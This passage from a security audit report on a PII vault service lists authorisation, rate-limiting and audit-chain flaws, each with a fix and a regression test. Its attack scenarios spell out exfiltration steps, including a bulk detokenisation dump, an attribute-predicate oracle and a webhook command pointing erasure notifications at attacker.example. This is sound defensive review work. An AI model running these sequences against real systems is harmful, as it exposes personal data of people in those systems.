3. Audit-table inflation: under the default bucketed read mode, `audit.ReadEvent` (reads.go:88-98) upserts on PK `(client_id, user_id, cid, action, bucket_start)`. `userIDMiddleware` (server.go:567) accepts any client-supplied `X-Sunder-User-Id` matching `^[A-Za-z0-9._@:-]{1,64}$`. Looping `GET /v1/contacts/{cid}/attributes/{name}` with a fresh user id per request mints one new `audit_read_buckets` row per request, and that table has no DELETE path anywhere (migration 0022 installs a BEFORE UPDATE OR DELETE guard trigger) — see AUDIT-CHAIN-8 in §6.
4. The same absence removes the only rate ceiling on repeated predicate/attribute probing, which is what makes the OTI predicate oracle in TOKENS-LOOKUP-6 (below) unrestricted in rate.

**Impact.** A stolen bearer credential can dump PII at line rate; one authenticated client can serialise all writes across every replica under sync sealing; any authenticated client can grow an append-only, never-pruned table without bound. `api/openapi.yaml:1331` declares a 429 response for `GET /v1/shares/{uuid}` that the authed handler can never emit. No auth bypass and no disclosure to an unauthorised party — every path needs a valid credential holding the relevant action; what is missing is the defence-in-depth throttle the threat model advertises.

**Root cause.** `Server.allow` was retrofitted per handler rather than applied as middleware around the v1 mux, feature by feature (tokens, files, links, shares — the later F-series work) while the original endpoints were never revisited. The OpenAPI 429 declarations were only added to the routes that were wired, so neither the spec nor the tests flag the gap, and there is no test asserting every v1 route consults a limiter.

**Fix.** Apply the limit in the middleware chain instead of per handler: wrap the inner v1 mux at server.go:205, e.g. `s.mux.Handle("/v1/", s.Auth.Middleware(s.rateLimitMiddleware(userIDMiddleware(capturePattern(v1)))))`, where `rateLimitMiddleware` does what `allow` does today (`s.Limiter.Allow(client.ID, client.RateLimit)`, 429 + `sunder_ratelimited_total{client=…}`). Keep the narrower per-route buckets (`claims:`, `audit-verify:`, `audit-chain:`, `share-public:`) layered on top as ADDITIONAL buckets, and delete the now-redundant per-handler `s.allow` calls so there is one enforcement point. Add 429 to the remaining OpenAPI paths. Additionally feed `s.Detector.Miss` from `handleAttributeGet`'s `ErrNotFound` path so attribute probing is covered by enumeration detection too.

**Test required.** Table-driven test over every route registered on the v1 mux: create a client with `RateLimit: 1`, send two requests to each route with a valid credential and a well-formed body, and assert the second returns 429 `rate_limited`. It must currently fail for `POST /v1/contacts`, `POST /v1/contacts/{cid}/scopes`, `GET /v1/contacts/{cid}/attributes/{name}`, the versions routes, `POST /v1/consent`, `GET /v1/consent/{cid}`, `GET /v1/dsr/access`, `POST /v1/dsr/erase`, `GET /v1/dsr/export`, `POST /v1/oti`, `POST /v1/oti/verify` and `GET /v1/shares/{uuid}`. Pair it with a route-coverage assertion that enumerates the mux's registered patterns so a newly added route cannot silently skip the limiter.

### AUTHZ-2 / OPS-CLI-CONFIG-4 — `sunder bootstrap` mints a non-expiring credential holding `admin.unlock`, the exact state every other grant path refuses by name
**Severity:** MEDIUM | **Confidence:** CONFIRMED | **Verdict:** CONFIRMED | **Category:** SECURITY
**Location:** `cmd/sunder/main.go:1036` (`-ttl` defaults to `os.Getenv("SUNDER_BOOTSTRAP_TTL")`, documented "empty = non-expiring"), `:858-861` (`parseTTL("")` → `(nil, nil)`), `:1087-1097` (`auth.CreateTx` with `auth.ActAdminUnlock` at `:1092` and `CredentialExpiresAt: expiresAt`); `internal/auth/auth.go:268-285` (CreateTx — no `ValidateUnlockGrant`), `:117-128` (ValidateUnlockGrant), `:286-306` (Create — calls it), `:322-338` (RotateSecret — calls it); `cmd/sunder/main.go:196-209`, `:238`, `:255` (checkUnlockAgainstExpiry on the grant paths); `deploy/provision/provision.sh:111-116` (managed Job sets no TTL); `docs-site/docs/install/bootstrap.md:86`

**Problem.** `auth.ValidateUnlockGrant` exists specifically to refuse `admin.unlock` on a credential with no expiry — its own comment says "a standing grant on a long-lived service token turns the strict search posture back into 'always allowed with an extra step'. A warning would be ignored; this refuses at issuance." `grep -rn ValidateUnlockGrant` shows exactly two production call sites: `Create` (auth.go:291) and `RotateSecret` (auth.go:337). `CreateTx` — the constructor the bootstrap path uses, and its only non-test caller — has none: it validates the `clientIDPattern` and inserts. `bootstrapCmd` unconditionally puts `auth.ActAdminUnlock` in the action list (main.go:1092) and passes `expiresAt`, which is nil whenever `-ttl`/`SUNDER_BOOTSTRAP_TTL` is unset. No DB-level CHECK or trigger on `clients` backstops it.

**Why it matters.** The invariant is enforced inconsistently: an operator who sees `sunder client grant -id admin -add-actions admin.unlock` refused on a non-expiring credential, and `client rotate-secret -id admin -no-expiry` refused too, reasonably concludes the combination cannot exist. It is the default state of every deployment.

**Failure / attack scenario.**
1. Operator follows docs/PROVISIONING.md:30 and runs `sunder bootstrap -unattended -credential-file /run/secrets/admin` with no `-ttl` and no `SUNDER_BOOTSTRAP_TTL` (also the shipped Helm/compose hook and `deploy/provision/provision.sh`, whose Job env is only `envFrom: secretRef sunder-db` plus `SUNDER_BOOTSTRAP_PURPOSES`).
2. `parseTTL("")` returns `(nil, nil)` at main.go:859-861.
3. `auth.CreateTx` inserts the row with `credential_expires_at = NULL` and `allowed_actions` containing `admin.unlock`, `tokens.create`, `tokens.read`, `attributes.read`, `dsr.access/erase/export`, `scopes.issue`, `claims.external`. No expiry validation runs.
4. The holder of that permanent credential now does, forever, in two calls: `POST /v1/admin/unlock {"purpose":"bulk-tokens"}` → `Unlock.Issue` succeeds because `client.Can(ActAdminUnlock)` is true (internal/service/unlock.go:48); then `POST /v1/tokens/bulk/read` with `X-Sunder-Unlock: <token>` → `requireUnlock` passes (internal/api/tokens.go:63-77) and `DetokenizeBulk` returns up to 1000 sealed values (IBAN/PAN/national id) per call (internal/service/valuetoken.go:595-623). The same two-call loop unlocks fuzzy/suffix search under `SUNDER_SEARCH_UNLOCK=true` (internal/api/lookup.go:53).
5. Re-running `sunder client create -role admin -actions …,admin.unlock` without `-expires-in` is *refused* (auth.go:291); `sunder client grant -id admin -add-actions admin.unlock` on a non-expiring client is *refused* (main.go:196/238/255). Only the default provisioning path produces the forbidden state.
6. Compounding it, provision.sh:130-136 discards the bootstrap credential (written to an in-pod emptyDir, pod then deleted) and tells the operator to run `client rotate-secret -id admin -ttl 90d`, so the non-expiring row can sit unnoticed until someone rotates it.

**Impact.** The default-provisioned admin credential permanently defeats the second factor that gates every bulk surface in the product. Bulk value-token read is the designed quiet-exfiltration chokepoint (valuetoken.go:10-14: "bulk is where quiet exfiltration lives"); with a standing unlock grant it is a two-call self-service dump for a credential that never expires and therefore never forces rotation. The credential is already the omnipotent bootstrap admin, so this defeats a second factor and removes forced rotation rather than granting new reach — hence MEDIUM, not higher. An operator auditing `clients` sees a state the CLI claims is impossible.

**Root cause.** `CreateTx` was extracted from `Create` for bootstrap's transactional needs (client row + persisted credential + audit row committing together) and the validation call was not carried across; the L10 sweep enumerated the create/grant/rotate paths and missed the transactional twin. Bootstrap's action list was later widened to include `admin.unlock` without revisiting the rule.

**Fix.** Move the guard into the shared body so every insert path funnels through it: add `if err := ValidateUnlockGrant(c.AllowedActions, c.CredentialExpiresAt); err != nil { return "", err }` immediately after the `clientIDPattern` check at auth.go:269 (and have `Create` delegate to `CreateTx`, or extract a `validate(c Client) error` both call). Then either (a) default `bootstrapCmd`'s `-ttl` to a concrete value, e.g. `getenvDefault("SUNDER_BOOTSTRAP_TTL", "90d")` at main.go:1036, or (b) drop `auth.ActAdminUnlock` from the bootstrap action list at main.go:1092 and document granting it with `client grant` against an expiring credential. Set `SUNDER_BOOTSTRAP_TTL` in `deploy/provision/provision.sh` and document it in the chart. Add a DB-level backstop: a CHECK/trigger on `clients` refusing `'admin.unlock' = ANY(allowed_actions) AND credential_expires_at IS NULL`. Fail loudly on the installed base: have `serve` log a startup warning for any row matching that predicate.

**Test required.** `TestBootstrapRefusesStandingUnlockGrant`: run `bootstrapCmd` against a clean test DB with `-ttl` unset and `SUNDER_BOOTSTRAP_TTL` unset, and assert it either errors or produces a row with `credential_expires_at IS NOT NULL`. Plus a unit test asserting `auth.CreateTx(ctx, tx, auth.Client{ID:"x", AllowedActions: []string{auth.ActAdminUnlock}, CredentialExpiresAt: nil})` returns the `ValidateUnlockGrant` error, mirroring the existing `TestValidateUnlockGrant` (auth_test.go:38). A repo-wide invariant test asserting `SELECT count(*) FROM clients WHERE 'admin.unlock' = ANY(allowed_actions) AND credential_expires_at IS NULL` is 0 after any provisioning helper runs.

### AUTHZ-3 — Redis limiter fails OPEN for the credential brute-force throttle and the credential-less share fetch; only `portal:`/`claims:` fail closed
**Severity:** MEDIUM | **Confidence:** CONFIRMED | **Verdict:** CONFIRMED | **Category:** SECURITY
**Location:** `internal/ratelimit/redis.go:189-210` (`RedisLimiter.failed`, allowlist at `:204`), `:243-250` (`Allow` → `l.failed(key)` on any Redis error); bucket producers `internal/auth/auth.go:238` (`"authfail:"+ip`), `internal/api/shares.go:69` (`"share-public:"+ip`), `internal/api/audit.go:35,71`, `internal/api/server.go:226`; default `internal/config/config.go:179` (`SUNDER_REDIS_FAIL_CLOSED == "true"`, i.e. default false); route registration `internal/api/server.go:206-210`

**Problem.** `failed()` returns `false` (deny) only for keys prefixed `portal:` or `claims:`; every other key falls through to `return !l.FailClosed`, which with `SUNDER_REDIS_FAIL_CLOSED` unset means allow. Two of the remaining buckets are precisely the ones the function's own comment says must not fail open: `authfail:` is the only brute-force throttle on bearer credentials, and `share-public:` is the only control on `GET /v1/shares/{uuid}` when `SUNDER_SHARES_PUBLIC=true` — an unauthenticated route whose own handler comment (shares.go:61-66) says "an unauthenticated, unlimited endpoint that writes to the chain is a DoS on that lock". `audit-verify:`, `audit-chain:` and the bare client-id bucket are in the same fall-through. The in-memory backend has no such hole: `ratelimit.Limiter.Allow` never fails.

**Why it matters.** `SUNDER_REDIS_ADDR` is required for any multi-replica limit sharing, and CONFIG.md documents fail-open as the default, so the exposed configuration is the recommended one.

**Failure / attack scenario.** Deployment sets `SUNDER_REDIS_ADDR` and leaves `SUNDER_REDIS_FAIL_CLOSED` unset.
1. Redis becomes unreachable (failover, network partition, OOM-kill). Every `RedisClient.cmd` errors.
2. Credential brute force: the attacker sends bad `Authorization: Bearer <id>.<guess>` headers. `Authenticator.Middleware` reaches auth.go:238 `a.Limiter.Allow("authfail:"+ip, 60)`. `RedisLimiter.Allow` calls `windowCount`, gets an error, calls `failed("authfail:1.2.3.4")`; the key matches neither prefix, so it returns `!false = true`. The middleware allows the attempt and answers 401. The 60-per-minute cap is gone; attempts run at connection-pool speed for the whole outage, each costing a full DB round trip plus a SHA-256 and `ConstantTimeCompare` — a DB amplification vector while the DB may already be under stress.
3. Public shares: with `SUNDER_SHARES_PUBLIC=true`, `handleShareFetchPublic` calls `s.Limiter.Allow("share-public:"+ip, 120)`; same fall-through, same allow. Each fetch runs `Shares.Fetch` → `audit.ReadEvent`; under `SUNDER_AUDIT_READS=chained` that is `audit.Append`, and under `SUNDER_AUDIT_SEALING=sync` it takes `pg_advisory_xact_lock(0x53554E44)` (audit.go:174) — so an anonymous caller can serialise every write on every replica for the duration of the Redis outage.

**Impact.** A Redis outage silently removes the only control on the unauthenticated public-share surface and the only throttle on repeated credential attempts, converting an availability incident into an abuse window and, with the stacked config, an instance-wide write-lock DoS. Nothing rejects the request; the only signal is the `sunder_ratelimit_backend_failures_total` counter wired at server.go:155-157. Two caveats keep this at MEDIUM: `crypto.NewClientSecret` (crypto/tokens.go:79-85) mints 32 random bytes base32-encoded, so credential guessing is infeasible with or without the cap — what degrades is DB-amplification abuse, not credential compromise; and the stronger half needs `SUNDER_SHARES_PUBLIC=true` for the route to be registered at all (server.go:206-210), plus `SUNDER_AUDIT_READS=chained` and `SUNDER_AUDIT_SEALING=sync` for the write-lock DoS.

**Root cause.** The must-fail-closed set was written as a literal prefix list when the portal and external-claims buckets were added; later prefixes (`authfail:`, `share-public:`, `audit-verify:`, `audit-chain:`) were introduced without extending it. The list is opt-in rather than the safe default.

**Fix.** Invert the policy: make `failed()` fail CLOSED by default, with an explicit opt-out only for the plain authenticated-client bucket where degrading abuse control beats degrading availability. Minimally, extend the list at redis.go:204 to `[]string{"portal:", "claims:", "authfail:", "share-public:"}`. Better: give `Allower` a typed criticality argument (or an `AllowCritical(key, limit)` method) so each call site declares its stance, and have `RedisLimiter` fall back to a bounded in-process `ratelimit.Limiter` for critical buckets during an outage rather than choosing between all-or-nothing.

**Test required.** `TestRedisLimiterFailsClosedForCriticalBuckets`: construct a `RedisLimiter` pointed at a closed port with `FailClosed:false` and assert `Allow("authfail:1.2.3.4", 60)` and `Allow("share-public:1.2.3.4", 120)` both return false while `Allow("crm", 100)` returns true. Plus end-to-end: build a server with a dead Redis address, hammer `/v1/shares/{uuid}` in public mode 200 times from one `RemoteAddr` and assert at least one 429; send 100 bad `Authorization` headers and assert at least one 429.

### AUTHZ-4 / DB-TXN-5 — OTI verify writes an allowlist-forbidden attribute into the verifier's blob before filtering, and the undo is an unlocked read-modify-write that runs after commit
**Severity:** MEDIUM | **Confidence:** CONFIRMED | **Verdict:** CONFIRMED | **Category:** SECURITY
**Location:** `internal/service/oti.go:341` (shareIntoScope inside the tx), `:376-379` (`tx.Commit`), `:384-405` (M3 allowlist filter, AFTER the commit), `:414-443` (`stripSharedAttr`, read-modify-write on `o.Pool` with no `FOR UPDATE`), `:445-501` (shareIntoScope, which itself takes `FOR UPDATE` at `:469`); contrast `internal/service/contacts.go:570-573`, `:583-590`, `:620-622` (mergeIntoBlob's `FOR UPDATE OF c, p` and `appendVersion`), `internal/service/rekey.go:141-150` (guarded compare-and-set); consumers `internal/service/contacts.go:472-530`, `internal/auth/auth.go:136-144`

**Problem.** `VerifyFull` copies every issuer-authorised attribute into the verifier-scope blob inside the transaction (`shareIntoScope`, oti.go:445-501, UPDATE at :496-500) and commits it at oti.go:376. Only afterwards does it consult the verifier's F3 attribute allowlist (`if client.AllowedAttributes != nil`, oti.go:384) and try to undo the copy with `stripSharedAttr` (oti.go:391). Two consequences follow from the ordering. First, the forbidden value is durably persisted in `cids.pii_encrypted` for the verifier scope before any check; the undo is best-effort compensation for a committed write. Second, `stripSharedAttr` (oti.go:414-443) does `SELECT pii_encrypted … FROM cids WHERE cid=$1` → `PII.Decrypt` → delete key → `Ring.Newest` → `PII.Encrypt` → a separate `UPDATE cids SET pii_encrypted=$2 … WHERE cid=$1`, entirely on `o.Pool` in autocommit, with no transaction, no row lock and no compare-and-set on `(pii_key_id, pii_alg)` — exactly the pattern `mergeIntoBlob` calls out as unsafe ("FOR UPDATE: two concurrent merges onto the same row … must serialize, or the first writer's attributes are silently lost", contacts.go:570-573). It also bypasses `appendVersion`, so the F6 history skips this generation despite versions.go:29-33 claiming history "can never miss a generation", and it writes no audit row.

**Why it matters.** The F3 control is documented as bounding the CLIENT CREDENTIAL's blast radius. Enforcing it only on the response body, with an unreliable compensating write for persistence, means a narrowed verifier's handoff can permanently seed its scope's blob with values that credential was never allowed to receive.

**Failure / attack scenario.** Setup: verifier client `erp` created with `-attributes name` (so `AllowedAttributes = ["name"]`, non-nil). Issuer mints an OTI with `share_attributes: ["name","iban"]` for audience `erp`.
1. `POST /v1/oti/verify`. `shareIntoScope` decrypts the issuer blob, merges `name` and `iban` into the erp-scope blob, re-encrypts and UPDATEs `cids` (oti.go:496-500).
2. `tx.Commit` at oti.go:376 succeeds. The erp scope's blob now durably contains `iban`.
3. The M3 loop at oti.go:386 finds `CanReadAttribute("iban") == false` and calls `stripSharedAttr(ctx, verifierCID, "iban")` at oti.go:391. This runs on the request context. If the client has already disconnected or the deadline has passed, `o.Pool.QueryRow` returns `context.Canceled`; the error propagates out of `VerifyFull`, the handler writes 500 (api/contacts.go:41), and `iban` stays in the erp blob forever. The `oti` row is already `status='USED'` (the atomic UPDATE..RETURNING at :297-303) and cannot be re-verified, so no retry ever re-runs the strip.
4. Any *other* erp-scope client without an attribute allowlist then reads it: `GET /v1/contacts/{erpCID}/attributes/iban?purpose=…` passes `CanReadAttribute` (auth.go:139 returns true for a nil/empty list) and returns the value; `GET /v1/dsr/export` dumps it.
5. Separately, a lost update with no failure required: two concurrent `POST /v1/contacts` registrations and one `stripSharedAttr` on the same verifier cid interleave as SELECT(strip) → `registerTx`/`mergeIntoBlob` merge + commit (holding `FOR UPDATE OF c, p`, which cannot block a writer that takes no lock) → UPDATE(strip). The strip's UPDATE overwrites the freshly merged attributes with its stale snapshot; the registration reported success and its `phone` is silently gone, with no error, no audit trace and no version snapshot of the lost state (`appendVersion` ran inside the merge and captured the PRE-merge blob).

**Impact.** (a) The M3 allowlist is not atomic: an attribute the verifier must not receive can remain stored in the verifier's own scope, readable by any less-narrowed client of that scope. (b) Silent attribute loss on a live person's blob. (c) F6 version history silently skips this mutation, so the blob's recorded history no longer reconstructs what happened. It needs a verifier with a narrowed allowlist plus an issuer sharing an out-of-allowlist attribute, and the common path does complete the strip — hence MEDIUM.

**Root cause.** The M3 filter was bolted on after the transaction rather than folded into it, because `shareIntoScope` had already written the value inside the transaction. Compensating a committed write with a second, unsynchronised write is not equivalent to not making it.

**Fix.** Do not copy what the verifier may not read. Filter the attribute list BEFORE `shareIntoScope`, inside the transaction, so no compensating write is needed:

```go
// oti.go, before line 341
if client.AllowedAttributes != nil {
    allowed := shareAttrs[:0]
    for _, a := range shareAttrs { if client.CanReadAttribute(a) { allowed = append(allowed, a) } }
    shareAttrs = allowed
}
shared, err := o.shareIntoScope(ctx, tx, issuerCID, verifierCID, shareAttrs)
```

Filter `preds` the same way before `evalPredicates` at oti.go:351 and before the `AppendTx`, so the audit detail matches what was actually disclosed. Then delete `stripSharedAttr` (oti.go:414-443) and the post-commit block at oti.go:384-405 entirely. If a compensating path must be kept for a legacy reason, it must run inside a transaction, take the same `FOR UPDATE OF c, p` read as `mergeIntoBlob`, call `appendVersion`, and write an audit row.

**Test required.** `TestOTIVerifyNeverPersistsForbiddenAttribute`: create issuer `crm` and verifier `erp` with `AllowedAttributes: []string{"name"}`; register a person with `name` and `iban`; issue an OTI with `share_attributes: ["name","iban"]`; verify it; then read the raw `cids.pii_encrypted` for the erp cid, decrypt it directly in the test, and assert `iban` is absent. Second case: inject a failing pool (or a cancelled context) at the strip step and assert the same invariant — it must fail against the current code. Third (lost update): start `VerifyFull` with a PII engine stub whose `Decrypt` blocks on a channel; while it is blocked, run `Contacts.Register` merging a new attribute into the same verifier CID; release; assert the new attribute is still present.

### TOKENS-LOOKUP-6 — `oti.issue` discloses attribute values and attribute bits without requiring `attributes.read`; the gate added to shares was never applied to OTIs
**Severity:** MEDIUM | **Confidence:** CONFIRMED | **Verdict:** CONFIRMED | **Category:** SECURITY
**Location:** `internal/service/oti.go:98-122` (IssueFull permission gates), `:216-218` (audience check), `:341-351` and `:384-405` (VerifyFull disclosure), `:447-449` (shareIntoScope self-scope short-circuit), `:479-484`, `:496-498`; `internal/service/predicates.go:90-126` (evalPredicates); `internal/api/oti.go:49-56` (predicates in the HTTP response); contrast `internal/service/shares.go:50-52`; `internal/auth/auth.go:79-115` (role presets), `:136-144` (CanReadAttribute)

**Problem.** `IssueFull` checks `client.Can(auth.ActOTIIssue)` (oti.go:98-100), `client.CanUse(purpose)` (:105-107) and, per share attribute and per predicate, `client.CanReadAttribute(a)` (:113-122). It never checks `client.Can(auth.ActAttributesRead)` — `ActAttributesRead` does not appear anywhere in oti.go. Shares, the structurally identical delegated-read surface, requires both: `if !client.Can(auth.ActSharesCreate) || !client.Can(auth.ActAttributesRead)` (shares.go:50-52), with the comment calling a share "a delegated read". `CanReadAttribute` returns true for a nil/empty allowlist (auth.go:137-142), so an unrestricted credential passes the per-attribute loop unconditionally and `ActAttributesRead` is the only remaining gate.

**Why it matters.** The `attributes.read` action is documented as the read boundary. A credential provisioned specifically WITHOUT it — the intended shape for a handoff-only or federation-only integration component, which is what the `custom` role exists for — can still read attribute values and attribute predicates.

**Failure / attack scenario.** Disclosure 1 — attribute VALUES cross-scope without `attributes.read`:
1. A custom credential C_A is provisioned in scope A with `-actions oti.issue` only (deliberately denied `attributes.read`) and no attribute allowlist.
2. C_A calls `POST /v1/oti {cid: CID_A, purpose: p, audience: "B", share_attributes: ["name","email","birthdate","iban"]}`. `IssueFull` passes: `Can(oti.issue)` true, `CanUse(p)` true, `CanReadAttribute(x)` true for all x (empty allowlist). A token is minted.
3. A cooperating scope-B credential verifies it. `VerifyFull` → `shareIntoScope` copies those four attribute VALUES out of scope A's blob into scope B's blob (oti.go:479-484, 496-498), where scope B reads them normally. C_A has exfiltrated scope-A attribute values without ever holding `attributes.read`.

Disclosure 2 — attribute BITS back to the issuer itself, no second party needed:
1. A credential C with `-actions oti.issue,oti.verify` in scope A, purpose p.
2. C calls `POST /v1/oti {cid: CID_A, purpose: p, audience: "A" (its own scope), share_predicates: [{attr:"birthdate",op:"age_gte",value:18},{…value:40},{…value:60}, … up to maxPredicates=8]}`. `IssueFull` does not forbid `audience == client.Scope`.
3. C calls `POST /v1/oti/verify`. The audience check `audience != client.Scope` (oti.go:216-218) passes. `shareIntoScope` short-circuits because `issuerCID == verifierCID` (oti.go:447-449) — but `evalPredicates` does NOT short-circuit (called at oti.go:351; predicates.go:90-126): it decrypts the issuer blob and returns Result/Known per predicate.
4. `api/oti.go:53-55` puts them in the response body. C learns 8 bits about `birthdate` per token, plus arbitrary `exists` answers for any attribute name it guesses — all without `attributes.read`.
5. Nothing bounds the repetition: neither `POST /v1/oti` nor `POST /v1/oti/verify` calls `s.allow()` (AUTHZ-1 above), so C can binary-search the exact birthdate in ~4 token round trips and enumerate the attribute namespace at line rate.

**Impact.** A credential provisioned specifically without read access can read attribute values (via `share_attributes` to a partner scope) and attribute predicates (via a self-addressed OTI). Consent and purpose still apply, and the audit chain records `predicates_asked` and `shared` (oti.go:365-372), so this is traceable rather than silent — hence MEDIUM. It does not affect the built-in `service` or `admin` role presets, which include `attributes.read` anyway (auth.go:79-115); it bites the `custom` role, which exists precisely to narrow credentials.

**Root cause.** OTI issuance was modelled as "a handoff" rather than "a delegated read", so it inherited a purpose check and the F3 attribute allowlist but not the read ACTION check. The S1 fix recognised the same class of problem for shares and fixed only shares.

**Fix.** In `IssueFull`, immediately after the `ActOTIIssue` check (oti.go:98-100), add:

```go
if (len(shareAttrs) > 0 || len(in.SharePredicates) > 0) && !client.Can(auth.ActAttributesRead) {
    return "", time.Time{}, ErrForbidden
}
```

— or unconditionally, if a bare handoff should also count as a read, matching shares.go, which requires it for every share. Separately, make a self-addressed OTI explicit rather than an accident: either reject `audience == client.Scope` at issue when `SharePredicates` is non-empty, or apply the same `issuerCID == verifierCID` short-circuit to `evalPredicates` that `shareIntoScope` already has (oti.go:447-449), so a token cannot be used as a self-read oracle that bypasses `GetAttribute`'s gates.

**Test required.** Table test in `internal/service`: build an `auth.Client` with `AllowedActions={oti.issue}` (no `attributes.read`) and no allowlist; assert `OTI.IssueFull` with `share_attributes` returns `ErrForbidden`, and the same with `share_predicates`. Second test: a client with `{oti.issue, oti.verify}` in scope A issues `audience="A"` with an `age_gte` predicate, verifies it, and the test asserts the response carries no `Predicates` (or that issue was refused). Both fail today.

### OPS-CLI-CONFIG-3 — Operator CLI mutates credentials, grants, webhook targets, keys and retention policy with no audit-chain record
**Severity:** MEDIUM | **Confidence:** CONFIRMED | **Verdict:** CONFIRMED | **Category:** SECURITY
**Location:** `cmd/sunder/main.go:748-822` (client create), `:211-283` (client grant), `:140-169` (webhook set), `:571-635` (keys rotate/retire/rekey), `:306-324` (retention set) — none append; contrast `:914-919` (client rotate-secret), `:955-960` and `:1007-1011` (issuer add/remove), `:1101-1106` (bootstrap), which do; `internal/auth/auth.go:268-306` (neither `CreateTx` nor `Create` writes audit); `internal/service/keyring.go:209-213` (retire DELETEs `person_tokens`)

**Problem.** `grep -n 'audit.Append' cmd/sunder/main.go` returns exactly four call sites: rotate-secret, issuer add, issuer remove, bootstrap (plus `import.go:449`). Every other privileged operator mutation writes to the database with no chained record: creating a credential with an arbitrary action set (`client create -actions dsr.erase,attributes.read,scopes.issue`), escalating an existing credential (`client grant -role admin` / `-add-actions`), repointing a scope's erasure webhook and minting its signing secret (`webhook set`), retiring a key version — which also DELETEs rows (`DELETE FROM person_tokens WHERE kind=$1 AND key_version=$2`, keyring.go:209-213) — and setting a retention TTL that causes the next sweep to wipe blobs en masse (`retention set -scope x -days 1`). `auth.Create`/`auth.CreateTx` take no audit dependency at all, so no caller can be forced into it.

**Why it matters.** THREAT-MODEL.md:14 markets `scopes.issue` as "an explicit, audited, sparingly-granted privilege" and row 12 relies on "reviewing client grants stays a human duty" — but the grant itself leaves no evidence, so a review has nothing tamper-evident to review.

**Failure / attack scenario.**
1. An operator (or anyone who has obtained DB + CLI access — the insider/DBA case the audit chain exists for) runs `sunder client create -id svc-x -name x -scope crm -actions attributes.read,lookup,dsr.export -purposes support`.
2. They read out data through the API for a week. Those reads ARE audited, under `client_id='svc-x'`.
3. They run `sunder client grant -id svc-x -role readonly` to narrow it back.
4. The chain contains no record that `svc-x` was ever created, what it was granted, by whom, or that its grant later changed, so the verifier cannot answer "was this client entitled to those reads at the time?" from the tamper-evident log.
5. Equivalently, `sunder webhook set -scope crm -url https://attacker.example/hook` silently redirects every future erasure notification (which carries scope + CID) with no chained trace, and `sunder keys retire` silently destroys `person_tokens` rows.

**Impact.** The accountability property the product is built on has a hole exactly where privilege is granted. `verify-audit` will report an intact chain across a period in which the entire authorisation model was rewritten. This is also a GDPR Art. 32/5(2) accountability gap: changes to who may read personal data are not demonstrable. It is a completeness gap in the chain rather than a reachable compromise — the CLI already requires DB credentials and host access, and nothing here bypasses a request-time authorisation check — hence MEDIUM.

**Root cause.** Auditing was added per-command as each was written (rotate-secret, issuer, bootstrap) rather than at a choke point.

**Fix.** Append inside the same transaction as the mutation, not beside it. Give `auth.Create`/`CreateTx`/`RotateSecret` a transaction and an `audit.AppendTx` call for `client.create` / `client.grant` (detail: client_id, scope, allowed_actions, allowed_purposes, allowed_attributes, role, expires — actions and scope are metadata, not personal data, so they belong in `detail` under the P2.3 content boundary). Wrap `clientGrantCmd`'s UPDATEs (main.go:241, 259, 268/276) in one `pool.Begin` with an `audit.AppendTx`, which also fixes their current non-atomicity (DB-TXN-9 and OPS-CLI-CONFIG-10). Do the same for `webhook set` (`webhook.set`; detail: scope + url, never the secret), `keys rotate`/`retire` (`keys.rotate`/`keys.retire`; detail: kind, version, `person_tokens` rows deleted) and `retention set`. Add a CLI-level regression guard: a table-driven test running every mutating subcommand and asserting the audit row count increased.

**Test required.** `cmd/sunder` integration test: snapshot `SELECT count(*) FROM audit`, run `run("client", []string{"create","-id","t","-name","t","-scope","s","-actions","lookup"})`, then `run("client", []string{"grant","-id","t","-add-actions","dsr.erase"})`, `run("webhook", …set…)`, `run("keys", []string{"rotate","-kind","hmac-email"})`, `run("retention", []string{"set","-scope","s","-days","1"})`; assert one new audit row per command with the expected `action`, and that `audit.Verify` still reports the chain intact. Every assertion fails today.

#### LOW / INFORMATIONAL — security

| ID | Severity | Title | Location | Fix |
|---|---|---|---|---|
| CRYPTO-7 | LOW | Retiring a `pii-kek` version is cosmetic: every envelope decrypt path passes the row's stored `key_id` straight to `eng.Open` and never consults `Ring.Versions` (unlike OTI verification, which does gate on the live set), `Retire` runs no reference check and destroys no key material, and `keys rekey` prints "old versions can now be retired" unconditionally — on the same run that reported N undecryptable/skipped blobs | `internal/crypto/pii.go:80-90`; `internal/service/files.go:120,135,160`; `internal/service/valuetoken.go:136-137`; `internal/service/rekey.go:160-182`, `:341-380`; `internal/service/keyring.go:194-223`; `cmd/sunder/main.go:632-634`; contrast `internal/service/oti.go:229-256` | Make `Retire` fail closed for `pii-kek`: refuse while `SELECT 1 FROM cids WHERE pii_key_id=$1 UNION ALL … value_tokens … person_record_keys … cid_blob_versions … portal_outbox` returns anything, with a `-force` escape hatch. Print the retirement hint (main.go:634) only when `stats.Skipped == 0` and `reenc` was true, and say what remains otherwise. Document (and, for the file driver, offer) destruction of the retired key file — retirement without material destruction cannot answer a key leak |
| AUTHZ-5 | LOW | **PLAUSIBLE.** The credential-less share endpoint on the API listener derives its rate-limit key from `portalClientIP`, which trusts `SUNDER_PORTAL_CLIENT_IP_HEADER` — a knob named, documented and set for the *portal* listener. One header setting governs two sockets with different trust boundaries. Note the finding's mechanism description is wrong in one respect: with `hops=0` the code takes the RIGHT-most entry (portal.go:29-33), which is deliberately spoof-resistant behind the intended proxy, so the attack needs an API-listener path where nothing appends to the header — a topology property not verifiable from code | `internal/api/shares.go:68`; `internal/api/portal.go:26-52`; `internal/api/server.go:206-210` (public share route on `s.mux`), `:396-419` (separate portal listener); `internal/config/config.go:185` | Make the trusted-header decision per listener: add `SUNDER_API_CLIENT_IP_HEADER` (default unset → `RemoteAddr`) and use it at shares.go:68, leaving `SUNDER_PORTAL_CLIENT_IP_HEADER` to the portal mux; or pass `trustHeader = (s.Cfg.PortalListen == "")` through a shared `clientIP` helper. Independently add `share-public:` to the fail-closed prefix list (AUTHZ-3) |
| AUTHZ-6 | LOW | `/metrics` is unauthenticated by default — the constant-time bearer check at server.go:105 is applied only when `cfg.MetricsToken != ""`, there is no default, and the startup-warning block (which warns about missing TLS, portal-behind-mTLS and `SharesPublic`) says nothing about it. Series carry client ids and per-client volumes: `sunder_lookup_misses_total{client=…}` is the enumeration-detector signal itself, letting an enumerating client pace itself under the 100-per-10-minutes threshold that only ever logs. No PII: `instrument` logs no bodies or query strings and handler labels are route patterns | `internal/api/server.go:100-113`, `:227`, `:272-273`, `:420-431`; `internal/api/lookup.go:69`, `:73`; `internal/api/audit.go:36,72`; `internal/api/contacts.go:119` | Warn loudly at startup when the endpoint is open, alongside the existing warnings at server.go:421-431. Better: serve `/metrics` (and optionally `/healthz`/`/readyz`) on a separate `SUNDER_ADMIN_LISTEN` so it is not reachable on the socket serving the API and the portal, and document the token as required in CONFIG.md's production checklist |
